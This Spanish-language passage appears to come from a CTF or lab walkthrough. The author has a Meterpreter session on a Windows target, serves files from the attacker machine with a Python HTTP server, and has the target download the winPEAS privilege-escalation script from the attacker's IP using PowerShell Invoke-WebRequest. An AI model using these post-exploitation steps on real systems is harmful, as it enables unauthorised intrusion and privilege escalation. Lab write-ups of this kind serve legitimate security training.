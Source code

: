 ![Imagen039](39.jpeg)

Nos montamos un servidor web con python por el puerto 8080

```bash
python3 -m http.server 8080
```

Ahora en la sesión de Meterpreter ejecutamos los siguientes comandos para tener una PowerShell

```
shell
powershell
```

Y ahora ejecutamos el siguiente comando para descargar el script winPEAS.ps1

```
Invoke-WebRequest -Uri "http://10.8.213.110:8080/winPEAS.ps1" -OutFile "C:\Users\bitbucket\AppData\Local\VirtualStore\winPEAS.ps1"
``` 

![Imagen040](40.jpeg)
